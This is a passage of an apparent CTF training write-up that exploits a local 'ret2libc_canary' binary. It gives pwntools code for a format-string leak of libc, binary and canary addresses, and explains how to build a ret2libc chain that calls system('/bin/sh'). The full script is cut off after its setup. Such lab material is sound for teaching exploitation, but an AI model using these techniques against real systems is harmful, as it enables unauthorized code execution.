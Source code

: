 ```py
p = start()

# phase 1 : leaking binary and libc address
p.sendlineafter("So you wanna try again. Go ahead :)", b"%p "*25)
all_leaked = str(p.recvline()).split()
log.info("Info leaked: " + str(all_leaked))
```

![](/images/pwn-train3/pwntraining3/pwntrain8.png)

* We can confirm that the address ``0x7ffff7faea03`` is from the libc, nice ! we already got a leak. Attach gdb and check what the address corresponds to.

![](/images/pwn-train3/pwntraining3/pwntrain9.png)

Ok this is a libc function, we can calculate the offset of this function from the libc base. Now lets see if any other important info is leaked. :thinking:

Address that is ``0x5555555550a0``, is a address that is winthin the binary, we can calculate the offset like the previous one. 

Finally lets see if the canary is also included in the stack. Yes it is indeed inside the stack and can clearly see it.

![](/images/pwn-train3/pwntraining3/pwntrain10.png)

Now to find the position of canary we can set a break point in the address before the ``__stack_chk_fail@plt``. The stack will be stored in the `RCX` register. Create a offset pattern then see what value is in the `RCX` register and place the canary value there to complete the exploit.

Now it is simple. We can simply calculate all the relative offset from the base of binary and libc, So we can now ``pop rdi`` to populate it with the address of `/bin/sh` and call `system`. Below I have given the commented solution.

```py
#!/usr/bin/env python3
from pwn import *

# Set up pwntools for the correct architecture
context.update(arch='amd64')
exe = './ret2libc_canary'
elf = ELF("./ret2libc_canary")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
# ./exploit.py DEBUG NOASLR


def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)


# ./exploit.py GDB
gdbscript = '''
b* main+164
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================

p = start()

# phase 1 : leaking binary and libc address
```